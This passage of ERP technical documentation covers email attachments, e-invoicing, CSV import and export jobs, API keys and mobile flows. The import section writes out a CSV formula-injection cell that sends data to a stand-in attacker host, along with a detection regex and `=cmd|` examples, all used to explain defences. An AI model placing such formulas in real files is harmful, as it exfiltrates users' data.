4. Controller returns 422 with the message; UI shows "Send failed: missing variable 'invoice.purchase_order_ref'" — operator fixes the template (e.g. wraps in `{{#each}}`) and re-tries.

---

## Outgoing Email Attachments

### What it is

The link between an outgoing email and a [Document Render](#document-renders) — used for the "show me the PDF we sent" audit lookup. One row per attachment per email.

### How records get created

| Method | When |
|---|---|
| `EmailDeliveryService::send` | When `attach_pdf` is true (default) and the rendered format is `html_pdf`, the service auto-links the render row to the new email via `OutgoingEmailAttachment::create`. |

### Fields

| Field | Source | Notes |
|---|---|---|
| Email ID | Auto | FK to outgoing_emails. |
| Render ID | Optional | FK to document_renders. Lets you click through to the exact bytes shipped. |
| Inline Path | Optional | Alternative — when the attachment isn't a document render (rare in v1). |
| Filename | Required | Built as `{template_name}_{entity_type}_{entity_id}.pdf` with sanitisation. |
| MIME Type | Default `application/octet-stream` | Set to `application/pdf` for render-linked rows. |
| Size Bytes | Optional | Lazily filled — not eagerly computed on create. |

### Actions

- **List per email** — embedded in the outgoing email show response.
- **No direct CRUD.** Created by the send path only.

### Gotchas

- **Render ID is the audit link.** A render row deleted in a future cleanup script breaks this pointer; v1 has no such script and document_renders are kept indefinitely.
- **`size_bytes` is intentionally NULL on the v1 create path** — the disk-resident render is already sized by the document_renders.output_bytes column.
- **Filename mirrors the template name.** `{sanitised_template_name}_{entity_type}_{entity_id}.pdf` — a customer receiving "Standard_Invoice_customer_invoice_42.pdf" can recognise it at a glance. `preg_replace('/[^A-Za-z0-9._-]+/', '_', $template_name)` keeps it filesystem-safe.

---

## E-Invoicing

### What it is

A regulator-facing pipeline that submits a posted customer invoice to an e-invoicing portal (India IRP, Saudi Fatoora, Brazil NF-e, etc.) and stores the **IRN** (Invoice Reference Number), **ack number**, **ack date**, **QR code**, and raw provider response back against the source invoice. Submission is performed by a pluggable provider; v1 ships **only** `EInvoiceProviderStub` — a deterministic local stub that hashes `STUB|<provider_code>|<tenant>|<invoice_id>` to a 32-char IRN so the contract surface is testable end-to-end without external API calls. Real regulator adapters drop into the same `submit(tenantId, invoice, providerCode) → array` contract in later sprints.

> **Example:** Tenant 7 has the Indian GST regime configured with `provider_code = stub` in sandbox mode. Operator posts customer-invoice #4421, hits Generate E-Invoice → service creates an `e_invoice_documents` row in `pending`, calls `EInvoiceProviderStub::submit`, persists the returned IRN + ack number, flips status to `generated`. Two months later the invoice needs to be voided — operator submits a cancel with reason `"Customer return"`, the doc transitions `generated → cancelled` and a row lands in `e_invoice_cancellations` for the regulator audit trail.

### Provider config — `e_invoice_provider_configs`

Per `(tenant, regime, provider_code)` settings. UNIQUE on the same triple (`uq_eipc_tenant_regime_provider`).

| Field | Type | Notes |
|---|---|---|
| `regime_id` | int | FK to `tax_regimes`. Controller re-validates regime ownership against the tenant — FK alone only enforces existence, not ownership. |
| `provider_code` | varchar(40) | Adapter key, e.g. `stub`, `in_gst_irp`, `sa_fatoora`. v1 only routes to `EInvoiceProviderStub` regardless of value; persisted for later adapter dispatch. |
| `api_endpoint` | varchar(500), nullable | Provider base URL. Not consumed by the v1 stub. |
| `credentials_encrypted` | text, nullable | Wrapped at rest. v1 stores `base64_encode(rawCredentials)` — explicitly a placeholder; real KMS/Vault handoff is Tier D. |
| `mode` | enum('sandbox','production') | Default `sandbox`. Invalid values silently coerce back to `sandbox`. |
| `is_active` | tinyint(1) | Only active configs are eligible for `findActiveForRegime` lookup. |

**Credential hygiene.** `EInvoiceProviderConfig::listForTenant` runs `unset($r['credentials_encrypted'])` on every row before returning — list responses **never** carry credentials. `find()` / `showConfig` do return the encrypted blob, but show is gated by `requireManage`. There is no decrypt-and-return endpoint. **Mutation contract:** `update()` is field-merge — only keys present in the payload are written. To clear credentials explicitly, pass `"credentials": null`.

### Documents — `e_invoice_documents`

One row per submitted customer invoice. UNIQUE on `(tenant_id, customer_invoice_id)` — strictly one e-invoice per customer-invoice per tenant in v1.

#### How records get created

There is **no auto-create-on-post**. Every e-invoice document is generated by an explicit call: UI (`/erp/e-invoicing`) → Generate, or `POST /erp/e-invoicing/documents/generate` with `{customer_invoice_id, regime_id?}`. The **only source document type is `customer_invoices`** — credit memos, vendor bills, and sales orders do **not** flow through this pipeline.

#### Fields

| Field | Type | Notes |
|---|---|---|
| `customer_invoice_id` | int | The source. |
| `regime_id` | int, nullable | The regime that resolved the provider config. |
| `provider_code` | varchar(40) | Copied from the resolved config at create-time. |
| `status` | enum | `pending` / `generated` / `cancelled` / `error`. |
| `irn` | varchar(120), nullable | Invoice Reference Number. NULL until `generated`. |
| `qr_code` | text, nullable | Provider's QR payload (stub returns `data:text/plain;base64,<base64(irn)>`). |
| `ack_number` | varchar(120), nullable | Provider's acknowledgement number. |
| `ack_date` | datetime, nullable | Provider-side ack timestamp. |
| `error_message` | text, nullable | Only populated on `error` (truncated to 65535 bytes). |
| `raw_response_json` | text, nullable | Full provider response. |
| `generated_at` | datetime, nullable | Server-side timestamp set when `markGenerated` fires. |

#### Lifecycle



Every transition uses CAS (`UPDATE … WHERE status IN (allowedFrom)` checking `rowCount() === 1`). There is no `pending → cancelled` path. A doc stuck in `pending` because the provider never responded must first be flipped to `error` (or wait for a successful retry); cancellation is gated on `status === 'generated'`.

#### Actions

- **List** — `GET /erp/e-invoicing/documents`. Filters: `status`, `customer_invoice_id`. Open within the tenant.
- **Show** — `GET /erp/e-invoicing/documents/{id}`. Returns row + `cancellations[]`.
- **Generate** — `POST /erp/e-invoicing/documents/generate` with `{customer_invoice_id, regime_id?}`. Manager+ only.
- **Cancel** — `POST /erp/e-invoicing/documents/{id}/cancel` with `{reason, regulator_ack?}`. Manager+ only.

#### Provider resolution (generate)

| Caller supplies | Behaviour |
|---|---|
| `regime_id` | Must match an active config. No matching active row → "*No active e-invoice provider configured for regime_id=…*". **No fallback** to "any active provider" — that would risk silently submitting under the wrong regulator. |
| No `regime_id`, exactly **one** active config exists | Uses it. |
| No `regime_id`, **zero** active configs | "*No active e-invoice provider configured for this tenant.*" |
| No `regime_id`, **two or more** active configs | "*Multiple active providers exist for this tenant — supply regime_id to disambiguate…*" |

#### Idempotency + retry (generate)

`generate()` opens with `SELECT … FOR UPDATE` against the existing `e_invoice_documents` row for `(tenant, customer_invoice_id)`. That row lock serialises all concurrent callers behind one in-flight submission — without it, two retries on the same `pending` doc would both call the provider and issue duplicate IRN requests.

| Existing row state | Behaviour |
|---|---|
| (none) | Resolve provider, INSERT a fresh `pending` row, submit. |
| `generated` | **No re-submit.** Returns the existing row — the IRN is real and one-time-per-invoice on the regulator side. |
| `pending` | Re-submits on the same `docId`. |
| `error` | `transitionStatus(['error'], 'pending')` then re-submits on the same `docId`. |
| `cancelled` | Treat as terminal — INSERT attempt fails the UNIQUE. |

### Cancellations — `e_invoice_cancellations`

Append-only audit trail (regulator-mandated). The `transitionStatus(['generated'], 'cancelled')` CAS in `cancel()` means a second cancel on the same doc fails with `"E-invoice changed state during cancel."` before reaching the insert.

#### Fields

| Field | Type | Notes |
|---|---|---|
| `document_id` | int | The cancelled doc. |
| `cancellation_reason` | varchar(500) | Required. Trimmed; empty rejected. |
| `regulator_ack` | text, nullable | Optional acknowledgement payload returned by the regulator (e.g. IRP cancel-reference-number). |
| `cancelled_by` | int, nullable | From `Auth::id()`. |
| `cancelled_at` | datetime | Defaults to `CURRENT_TIMESTAMP`. |

There is **no** `cancellation_reference_number` column — `regulator_ack` is the only field carrying provider-side cancellation evidence. The doc's status flip + this audit row are written in the same transaction.

#### Cancel pre-flight (in order)

1. `reason` required (Validator) and non-empty after trim.
2. Document must exist under the tenant.
3. Current status must be exactly `'generated'`. `pending` / `error` / already-`cancelled` all return `"Only generated e-invoices can be cancelled (status='<x>')."` — no admin override.
4. `transitionStatus(['generated'], 'cancelled')` must affect exactly one row.

### Examples

1. **Standard flow.** Customer invoice #4421 posts. Operator clicks Generate. Service finds the single active config for IN-GST, inserts `e_invoice_documents` (`status='pending'`), calls `EInvoiceProviderStub::submit`, `markGenerated` flips the row to `generated` with `irn`, `qr_code`, `ack_number`, `ack_date`, `raw_response_json`, `generated_at` set.
2. **Cancellation.** Two months later the customer returns the goods. Manager clicks Cancel, enters reason. `cancel()` validates `generated`, CAS-transitions to `cancelled`, inserts `e_invoice_cancellations`. The doc row keeps its IRN and ack — the cancellation is additive, never destructive.
3. **Provider outage + retry.** Operator hits Generate. Provider throws. `markError` flips the doc to `error`. Ten minutes later the operator clicks Generate again on the same invoice: the row lock + `transitionStatus(['error'], 'pending')` flips the same doc back to `pending` and re-submits — no duplicate document, no UNIQUE violation.
4. **Ambiguous tenant.** A tenant has two active configs (India GST + Saudi Fatoora). Operator clicks Generate without picking a regime → 422 ambiguous-provider error. Re-fires with `regime_id` populated → succeeds.

### Gotchas

- **Tenant isolation.** Every model method filters on `tenant_id`. `storeConfig` additionally re-validates `regime_id` ownership against `tax_regimes` — the FK alone only checks existence.
- **Credentials never on list responses.** `listForTenant` unsets `credentials_encrypted` on every row. `show` does return the encrypted blob (gated by `requireManage`), but there is **no** decrypt endpoint at all — the v1 wrapper is base64, which is obfuscation not security; real KMS handoff is Tier D.
- **IRN is the provider's authoritative ID.** The system never invents `irn` / `ack_number` / `ack_date` / `qr_code` — all sourced from the provider response. The deterministic stub hashes `STUB|<provider>|<tenant>|<invoice_id>` so the same triple always yields the same IRN, matching real-regulator one-time-IRN semantics so duplicate-submit bugs surface during testing.
- **No re-submission of `generated` docs.** `generate()` short-circuits and returns the existing row. The only way to re-issue an IRN for the same customer invoice is to cancel the existing doc — and even then the UNIQUE on `(tenant, customer_invoice_id)` blocks a fresh insert (cancelled is terminal).
- **Idempotency via row lock, not just CAS.** Concurrent generate retries on the same invoice serialise behind `SELECT … FOR UPDATE`. Without the lock, two callers would both fire the provider before either could CAS-mark the row. The CAS is the in-DB tiebreaker; the lock is the network-side tiebreaker.
- **Status `error` is recoverable, `cancelled` is terminal.** `error → pending` is allowed (retry path). `cancelled → anything` has no code path.
- **`provider_code` is persisted, not dispatched.** v1 always calls `EInvoiceProviderStub::submit` regardless of value. Field recorded on every document so that when real adapters land, history rows still know which provider handled them.
- **No bulk generate.** One customer-invoice-id per call.
- **Cancellation reason is mandatory and trimmed.** Empty / whitespace-only reasons fail at the service layer before the transaction opens. Free-text up to VARCHAR(500); no enum.

---

## Import Jobs

### What it is

CSV upload → parse → validate → import for a per-entity adapter. Each upload becomes one `import_jobs` row + N `import_job_rows`. Rows are processed individually in their own nested transaction so a single bad row doesn't abort the whole import.

> **Example:** Operator uploads `customers_2026Q2.csv` (2,400 rows) against the `customers` adapter with mode `create_or_update`. Header check passes; 2,400 `import_job_rows` insert with status `pending`. Operator hits Run → service iterates rows; 12 rows fail FK validation (vendor_country_code not on file), 2,388 succeed. Final job status = `partial`. Operator drills into the show page, filters `row_status = failed`, fixes the 12 source-data issues, re-uploads as a fresh job.

### How records get created

| Method | When |
|---|---|
| `POST /erp/import-jobs` (multipart/form-data) | UI upload. Fields: `file`, `entity_type`, `mode`. |

### Supported entity types (v1)

| Code | Adapter | Required columns | Notes |
|---|---|---|---|
| `item` | `ItemImportAdapter` | per `requiredColumns()` | Items master data. |
| `customer` | `CustomerImportAdapter` | per `requiredColumns()` | Customer companies. |
| `vendor` | `VendorImportAdapter` | per `requiredColumns()` | Vendor companies. |

The registry (`ImportAdapterRegistry::ADAPTERS`) is the **single security boundary** preventing arbitrary-table import/export via a controller URL. Adding a new importable entity REQUIRES a code change here AND in the autoloader — intentional, so the operator cannot surface an unsupported entity by URL-tampering. Frontend dropdowns fetch the live list from `GET /erp/import-jobs/adapters`; if an adapter class is missing from the classpath but still referenced in the registry, `describeAll` skips it AND emits a warn log so operators see the autoloader misconfiguration.

### Fields

| Field | Required | Notes |
|---|---|---|
| Job Number | Auto | Format `IMP-{tenant_id}-{NNNNN}`. |
| Entity Type | Yes | Must resolve via `ImportAdapterRegistry::resolve`. Unsupported types are 422 immediately. |
| Source File Path | Auto | Sanitised, prefixed with a timestamp + random hex, stored under `api/storage/imports/{tenant}/`. |
| Original Filename | Auto | Preserved for the operator's reference. |
| Mode | Default `create` | One of `create` / `create_or_update` / `dry_run`. |
| Status | Lifecycle | See below. |
| Total Rows / Success / Error / Skipped | Auto | Counters; updated as rows process. |
| Error Summary | Optional | Aggregated message for the operator. |

### Lifecycle



- `validating` is reserved for a future async validation pass; v1 runs validation per-row inline during `importing`.
- Cancel is only valid in `pending` / `validating` states — a running import refuses to cancel.

### Row Lifecycle

Each `import_job_rows` row follows: `pending → imported | failed | skipped`.

- `imported` — adapter accepted + entity created.
- `failed` — validation rejected, adapter threw, OR CSV-formula-injection caught.
- `skipped` — dry_run mode reaches this terminal state without committing.

### Actions

- **Upload** — `POST /erp/import-jobs` (multipart). Validates extension, size, header columns up-front; refuses with 422 on any mismatch. The controller explicitly gates on `Content-Type: multipart/form-data` — a JSON-body request gets a clean 415 with the content-type echoed, instead of falling through to "entity_type is required."
- **List adapters** — `GET /erp/import-jobs/adapters` returns `{code: {required, optional}}` per registered entity for the frontend dropdown + downloadable template generator.
- **Show** — embeds up to 500 per-row results, filterable by `row_status`.
- **Run** — CAS pending → importing. Iterates rows.
- **Cancel** — CAS pending/validating → cancelled.

### Gotchas

- **Per-row nested transactions** — each row runs in its OWN `Database::beginTransaction` so an FK violation rolls back ONLY that row's mutations. Without this the connection's implicit transaction state would abort every subsequent row.
- **CSV-formula-injection detection** runs on raw cells BEFORE adapter parsing. The regex matches `^[=+\-@][a-zA-Z][a-zA-Z0-9_]*\s*[\(\|]` (a `=` / `+` / `-` / `@` followed by an identifier + a paren or pipe) — common spreadsheet RCE / data-exfil templates like `=cmd|`, `=HYPERLINK(`, `@SUM(`. Plain numeric `-5` / `+1.5` are NOT flagged because adapter `parseRow` casts them to numbers. Pre-strip handles leading BOM + whitespace + CR/LF — Excel strips those before formula evaluation, so an attacker who prefixes `\t=cmd|` or `\xEF\xBB\xBF=cmd|` still gets RCE if the regex doesn't see the same "first significant character" Excel does.
- **PDOException messages are sanitised before reaching the operator.** Full diagnostic (SQLSTATE + index name + raw message) goes to `AppLogger::error`; the operator sees a SQLSTATE-mapped friendly message ("Database uniqueness or foreign-key constraint violated. Check for duplicates or unknown referenced ids.") so a tenant can't schema-recon by triggering import errors.
- **Per-row failures emit a warn log per failure.** When 1000 rows all fail with the same root cause, operators need that signal — not "SELECT FROM import_job_rows by hand."
- **Per-row `markFailed` / `markImported` / `markSkipped` return values are checked** — a 0-row affected outcome (concurrent delete, tenant mismatch) emits an error log so operators see the inconsistency.
- **MAX_UPLOAD_BYTES = 10 MB, MAX_ROWS_PER_JOB = 50,000** — both refuse with 422 at upload.
- **Filename sanitisation** strips everything except `[A-Za-z0-9._-]` and prefixes a timestamp + 4-byte random hex — defends against an attacker who lists the import directory later.
- **Source file is unlinked on parse failure** — earlier path used a relative unlink against the wrong CWD and leaked the file when `parseCsv` threw; v1 uses absolute paths.
- **Header normalisation** lowercases each column, trims whitespace, and strips a leading UTF-8 BOM. So a tenant that exports from Excel (which loves to slap a BOM on the first column) doesn't get refused with "missing column `name`" when the actual cell content is `\xEF\xBB\xBFname`.
- **Empty CSV (no header row)** throws "CSV is empty (no header row)" before any row is inserted — better than a 0-row "successful" import that confuses the operator.
- **Empty data lines are skipped silently** — trailing blank lines from Excel exports don't pollute the row counters.

### Realistic walkthroughs

**Bulk customer import (create_or_update):**
1. Operator downloads the customer CSV template (`requiredColumns` from the adapter) and fills 2,400 rows.
2. Uploads via `/erp/import-jobs` with `mode=create_or_update`. Header check passes; rows insert as `import_job_rows`.
3. Operator clicks Run. CAS pending → importing. Service iterates:
   - 2,388 rows pass `validateRow`, adapter `upsert` either INSERTs new or UPDATEs by natural key.
   - 12 rows fail FK validation (`country_code` doesn't match anything in `countries`).
4. Final status `partial`. Operator drills into the show page, filters `row_status=failed`, fixes the 12 source rows, re-uploads as a fresh job (the failed job stays in the log for compliance).

**Dry-run validation pass:**
1. Same flow as above but `mode=dry_run`.
2. Adapter `validateRow` runs but `upsert` is skipped; row marked `skipped` with `error_message='dry_run'`.
3. Final status `complete` (zero failed, all skipped). Operator sees which rows WOULD have failed without touching real data.

**CSV-formula-injection refusal:**
1. Operator uploads a customer list where one cell is `=HYPERLINK("http://evil.example/leak?email="&A2,"click")`.
2. Service per-row scan detects the pattern BEFORE adapter parsing.
3. Row marked failed with "Refused: cell 'website' looks like a CSV formula injection (starts with `=`/`+`/`-`/`@` + function syntax)." Operator strips the malicious cell from the source CSV and re-uploads.
- **`move_uploaded_file` is the ONLY safe production path.** A fallback to `copy()` is gated behind `IMPORT_ALLOW_NON_HTTP_UPLOAD` (test fixtures, CLI batch loaders); production HTTP cannot be tricked into copying arbitrary on-disk files by a crafted `$_FILES['file']['tmp_name']`.

---

## Export Jobs

### What it is

The mirror of [Import Jobs](#import-jobs): tenant-scoped adapter listForExport → CSV on disk. Run-on-create: `POST /erp/export-jobs` both creates and executes the job in one call.

> **Example:** Operator clicks Export on the Customer Invoices list with filter `status = open`. Controller posts `{entity_type:'customer_invoice', filters:{status:'open'}}`. Service inserts an `export_jobs` row (pending), resolves the adapter, walks `listForExport`, writes a CSV under `api/storage/exports/{tenant}/customer_invoice_42_20260609083000.csv`, calls `markComplete` with row_count + bytes, returns the row. UI then issues `GET /erp/export-jobs/42/download` to stream the file.

### Fields

| Field | Source | Notes |
|---|---|---|
| Job Number | Auto | Format `EXP-{tenant_id}-{NNNNN}`. |
| Entity Type | Yes | Same allowlist as import — `ImportAdapterRegistry::resolve` throws on unknown. |
| Filters JSON | Optional | Forwarded to the adapter's `listForExport`. Stored verbatim. |
| Status | Lifecycle | `pending` / `running` / `complete` / `error` / `cancelled`. |
| Output Path | Set on `complete` | Relative to `api/storage/`. |
| Output Bytes / Row Count | Set on `complete` | |
| Error Message | Set on `error` | Operator-facing diagnostic. |
| Started At / Completed At | Auto | Stamped on transition. |

### Lifecycle



There is no manual cancel surface — exports run synchronously inside the create call.

### Actions

- **Create + run** — `POST /erp/export-jobs`. Single round-trip; returns the row in its final state.
- **Show** — read-only status check.
- **Download** — `GET /erp/export-jobs/{id}/download`. Streams the CSV. Path-traversal guarded.

### Gotchas

- **Every CSV cell goes through `ImportEntityAdapter::neutraliseCsvFormula`.** A stored field value `=cmd|` would otherwise auto-execute when the operator opens the export in Excel/LibreOffice. The neutralisation prefixes a literal quote.
- **Corrupt `filters_json` fails closed** (Sev-1 round-3 fix). Strict JSON decode + log + `markError`. The previous path silently treated decode failure as empty filters → exported ALL rows in the tenant; an operator who wanted "open invoices for customer 42" would have gotten every invoice in the tenant. Now it refuses with "Export job filters_json is corrupt — operator must re-create the job."
- **`markError` is wrapped in try/catch** (Sev-1 round-3 fix) so a markError failure doesn't mask the original error. Both reasons are logged.
- **`createAndRun` belt-and-braces** — if `run()` throws BEFORE its inner try-block (e.g. ExportJob::find returns null due to tenant drift between create and run), the outer catch in `createAndRun` calls `markError` so the row doesn't sit at `pending` indefinitely.
- **Download endpoint has a path-traversal guard.** `realpath` of the requested file must start with `realpath(api/storage/exports/{tenant_id}/) + DIRECTORY_SEPARATOR`. The trailing separator is required — without it tenant id 1 could match `exports/10/*` by prefix. On Windows the comparison is case-insensitive (NTFS).
- **Download pre-validates disk state BEFORE emitting headers.** Once Content-Length is on the wire, a mid-stream `readfile` failure produces a truncated download with no way to signal the error back to the browser. The 410 Gone path catches the missing-file case before any header goes out.
- **Truncated reads are logged after the fact** — `readfile` return value is compared to `filesize`; mismatch goes to `AppLogger::error` (headers are committed, can't change status now).
- **PDOException messages are sanitised** the same way as import — full diagnostic to logs, friendly SQLSTATE-mapped message to the operator-facing `error_message`.
- **Synchronous create + run** means a long export blocks the HTTP request. v1 cap is implicit (whatever the adapter's `listForExport` returns before PHP's `max_execution_time`). Async background-job execution is a later platform sprint.
- **File extension on disk is `.csv`**, always. The `safeType` substitution `preg_replace('/[^A-Za-z0-9_]+/', '_', $entityType)` runs on the path component too — same defense-in-depth as the document_renders path.

### Realistic walkthroughs

**Export open customer invoices:**
1. Operator on the customer-invoice list applies filter `status = open` and clicks Export to CSV.
2. UI POSTs `{entity_type:'customer_invoice', filters:{status:'open'}}` to `/erp/export-jobs`.
3. Service inserts the job row (pending) → `run()` resolves the customer_invoice adapter → calls `listForExport(tenant_id, {status:'open'})` → writes the CSV row by row (each cell through `neutraliseCsvFormula`) → `markComplete` with row_count + bytes.
4. Controller returns the row with `status='complete'` and `output_path` populated.
5. UI immediately follows with `GET /erp/export-jobs/{id}/download` to stream the file as an attachment.

**Corrupt filters_json recovery (Sev-1 fix):**
1. Hand-edited DB row leaves `filters_json = '{not"valid:json'`.
2. Operator re-runs the job.
3. `run()` detects `json_last_error() !== JSON_ERROR_NONE`, logs the corruption with tenant_id + job_id, calls `markError`, and throws — refuses to widen scope to "all rows" silently.
4. Operator sees "Export job filters_json is corrupt — operator must re-create the job" and starts fresh from the Export screen with the right filters re-entered.

---

## API Keys

### What it is

Per-tenant public-API keys for external clients. Token format on the wire is `eky_{key_id}.{secret}` — `eky_` is the visible prefix that lets an operator spot a credential in logs / pastebins, `key_id` is 16 chars URL-safe base64 (shown to the operator), `secret` is 43 chars URL-safe base64 of 32 random bytes (shown ONCE at creation/rotation, never again).

> **Example:** Manager creates `Integration: Procurement Bot` with scopes `['erp.purchase_orders.read', 'erp.purchase_orders.create']`. Response embeds `secret_visible_once` + `token_visible_once`; the operator copies the token into the bot's config. Storage holds `sha256(secret)` only. Three weeks later the bot calls `GET /erp/purchase-orders` with `Authorization: Bearer eky_xxx.yyy`; the auth middleware resolves the key, the `last_used_at` + `last_used_ip` row is touched (debounced to once per 60s), the call routes with `tenant_id` and `scopes` set.

### How records get created

| Method | When |
|---|---|
| `POST /erp/admin/api-keys` (JWT only) | Manager-or-above human operator mints a key. |

API-key authentication is **explicitly refused** on the management endpoints — a leaked key cannot enumerate, revoke, or mint sibling keys. Only JWT-authenticated humans manage keys.

### Fields

| Field | Required | Notes |
|---|---|---|
| Name | Yes | Operator-facing label. |
| Key ID | Auto | 16 chars URL-safe base64. UNIQUE — retry up to 3 times on collision (birthday collision at ~2^48). |
| Key Hash | Auto | sha256(secret). Stored; secret is not. |
| Scopes JSON | Optional | Array of `erp.<module>.<action>` strings. Wildcards: `erp.*` grants everything, `erp.items.*` grants every action within items. Invalid scope strings are filtered out at write time (regex `/^erp(\.[a-z0-9_*]+)+$/i`). |
| Is Active | Default `1` | Revoke flips this to 0. Resolve refuses revoked keys. |
| Expires At | Optional | NULL = never. The SQL `WHERE` clause pushes the expiry check into the DB so a future cron purge agrees with the resolve path regardless of PHP/MySQL timezone alignment. |
| Last Used At / IP | Touched on each request | Debounced to once per 60s (a 1000 req/s key won't thrash this row). |

### Actions

- **List** — never returns `key_hash`.
- **Show** — embeds the last 100 usage_log rows.
- **Create** — returns `secret_visible_once` + `token_visible_once` exactly once. Subsequent show calls don't re-show them.
- **Rotate** — generates a fresh secret + hash; CAS on `is_active = 1` so a revoked key refuses rotation with "Key was modified or revoked by another request."
- **Revoke** — flips `is_active = 0`. The key stays in the table so the usage_log retains its pointer.
- **Delete** — transactional 2-statement delete (usage_log rows + key row) so a mid-step failure doesn't orphan one half.
- **Whoami** — `/erp/admin/api-keys/whoami` — only usable when authenticated by an API key (not JWT). Returns `{tenant_id, key_id, name, scopes}` for client-side debugging.
- **OpenAPI spec / Swagger UI** — `GET /erp/openapi.yaml` (public; static file) and `GET /erp/docs` (public; loads CDN-pinned Swagger UI 5.17.14 against the YAML).

### Gotchas

- **Secret is shown ONCE.** Lost secrets require rotation — there is no "recover" path. The response message at create explicitly says "copy the secret now; it will NOT be shown again."
- **sha256, not bcrypt.** Machine-generated 32-byte secrets have ~256 bits of entropy; work-factor hashing adds nothing because the keyspace is uncrackable regardless. bcrypt is for low-entropy human passwords.
- **Constant-time hash comparison** with `hash_equals` defends against timing attacks on the secret check.
- **Uniform 401 on every failure path.** Resolve returns NULL for missing prefix, malformed token, kid not found, revoked, expired, hash mismatch. The wire response is always 401 with the same message; SOC-side logs distinguish (`no_prefix` / `malformed` / `expired` / `kid_not_found` / `revoked` / `hash_mismatch` / `db_error`). Timing channels learn nothing.
- **Corrupt `scopes_json`** demotes the key to ZERO scopes (every check denies). Better than the alternative (silent elevation) but operators still need to see why a key suddenly stopped working — logged at `error`.
- **Wildcard scope matching** walks parent prefixes: `erp.items.create` matches `erp.items.*` matches `erp.*`. Exact match short-circuits first.
- **`last_used` debounce is 60 seconds** in the WHERE clause; a high-traffic key won't write-amplify this row. The rowCount=0 case is silent and acceptable.
- **Swagger UI is CDN-pinned**, not bundled. Self-hosting under `api/public/vendor/swagger-ui/` is a documented v1 supply-chain risk surface; the version pin (`swagger-ui-dist@5.17.14`) + `crossorigin="anonymous"` (so the CDN fetch carries no credentials) is the current mitigation. The unpinned `@5` floating version that was there originally would silently absorb any compromised minor release.
- **Usage log write is best-effort.** A DB blip during `ErpApiKeyUsageLog::record` is caught, logged as a warning, and never fails the actual API request — auth telemetry must not become a denial-of-service vector.
- **API-key delete is a 2-statement transaction.** Usage log rows + the key row are deleted together so a mid-step failure leaves NEITHER half done (no orphan usage_log pointing to a deleted key, no key with the log already gone).

### Auth resolution sequence (reference)

For each request carrying `Authorization: Bearer eky_…`:

1. **Prefix check** — token must start with `eky_`. Missing → 401 + log `no_prefix`.
2. **Structural parse** — body after prefix must contain exactly one `.`, with key_id (>= 8 chars) on the left and secret (>= 16 chars) on the right. Malformed → 401 + log `malformed`.
3. **DB lookup** — `ErpApiKey::findByKeyIdInternal` selects by `key_id` with the expiry gate baked into SQL (`expires_at IS NULL OR expires_at > NOW()`). DB failure → 401 + log `db_error` (treat infra failure as auth-fail; the user-facing shape stays identical so timing attackers don't learn the difference).
4. **Active check** — `is_active = 1` enforced in PHP after the SQL fetch (so the warn-log can distinguish "revoked" from "expired" for telemetry). Revoked → 401 + log `revoked`.
5. **Not-found differentiation** — if the row is missing, do a cheap second lookup ignoring expiry to tell "expired" from "kid not found" for SOC telemetry. Both still produce identical 401s on the wire.
6. **Constant-time hash compare** — `hash_equals(stored_hash, sha256(supplied_secret))`. Mismatch → 401 + log `hash_mismatch`.
7. **Touch `last_used_at` / `last_used_ip`** with 60-second debounce, wrapped in try/catch so a DB blip never fails the request.

### Realistic walkthroughs

**Mint a read-only BI key:**
1. Manager logs in (JWT) and visits `/erp/admin/api-keys`. Clicks New.
2. Enters name `BI ETL — read-only`, picks scopes `['erp.customer_invoices.read', 'erp.sales_orders.read']`, sets expires_at = 90 days out.
3. Submits. Response includes `token_visible_once = "eky_aBc…xyz.aBcdEf…012"`. Manager copies into the BI tool's config.
4. The DB row stores `sha256(secret)` only. Subsequent show calls return the row WITHOUT the hash or the secret.

**Wildcard scope check:**
1. BI ETL holds `erp.customer_invoices.*` (granted by manager during a scope refactor).
2. Bot calls `POST /erp/customer-invoices`. Controller calls `Auth::hasScope('erp.customer_invoices.create')`.
3. `ErpApiKeyService::hasScope` walks parent prefixes: `erp.customer_invoices.create` → `erp.customer_invoices.*` → match. Request succeeds.

**Rotation after a suspected leak:**
1. Manager visits the key list, clicks Rotate on the suspect key.
2. Service generates a fresh secret + hash; CAS UPDATE includes `is_active = 1` so a key revoked seconds earlier refuses the rotate cleanly.
3. Response embeds the new `secret_visible_once`; manager copies into the legitimate client. Old secret is unrecoverable — every previous-secret-holder now gets 401s with log reason `hash_mismatch`.

---

## Mobile Flows

### What it is

A phone-optimised hub at `/erp/mobile` that surfaces the two most-common field-worker actions: an Approvals Inbox (review pending approvals with thumb-zone Approve/Reject buttons) and a Receipt Upload (camera capture + multipart upload to an existing ERP entity).

> **Example:** Warehouse manager on the road opens `/erp/mobile` on their phone, sees the badge "3" on Approvals, taps in, swipes through three cost corrections — approves two, rejects one with a note "out of scope for Q2 budget" — done in 90 seconds. Later, they snap a photo of a freight invoice at the loading dock, pick `entity_type = vendor_bill`, type the bill ID, hit upload. The image attaches to the vendor bill record.

### Sub-screens

| Route | What |
|---|---|
| `/erp/mobile` | Hub — two tiles. Loads `/erp/approvals/counts` for the pending badge. |
| `/erp/mobile/approvals` | Inbox — list of pending approval requests with Approve / Reject + decision-note modal. |
| `/erp/mobile/attach` | Receipt upload — entity picker + camera-capture input. |

### Approvals Inbox

- Fetches `/erp/approvals/inbox` for the current user.
- Each card shows entity_type, entity_id, requested-at timestamp, optional summary + request notes.
- Approve / Reject open a modal with an optional decision-note textarea; POST `/erp/approvals/{id}/decide` with `{decision, notes}`.
- Modal stays open on failure so the operator can retry without losing the typed note.
- Hub badge `?` (instead of "3") when the counts fetch failed — so a missing badge isn't confused with "no pending approvals."

### Receipt Upload

- Entity-type picker: `cost_correction` / `vendor_bill` / `purchase_order` / `goods_receipt` / `customer_invoice`.
- Entity ID free-input.
- Camera capture via `<input type="file" accept="image/*,application/pdf" capture="environment">` — the `capture="environment"` hint opens the rear camera directly on iOS/Android; older desktops just show the standard file picker.
- Multipart POST to `/erp/attachments` with `{entity_type, entity_id, file}`.
- 10 MB cap surfaced as a clean "File too large" toast on a 413 response.
- Below the upload zone, the existing attachments list renders with thumbnails.

### Actions

- **View hub** — `/erp/mobile`. Always loads even if counts fetch fails.
- **Approve / Reject** — inbox card buttons + decision-note modal.
- **Upload receipt** — camera capture or library pick.
- **Delete attachment** — trash button per row with confirm prompt.

### Gotchas

- **Thumbnails hydrate through the authenticated `/blob` endpoint** + `URL.createObjectURL`. The JWT never appears in a URL on the page. Per-thumb fetch failures are swallowed silently so a single broken image doesn't kill the page.
- **Camera input is disabled while an upload is in flight** to prevent fast-tap duplicate POSTs. The input value is cleared in `finally` so re-picking the SAME file on retry actually fires the change event again (browsers gate on value change).
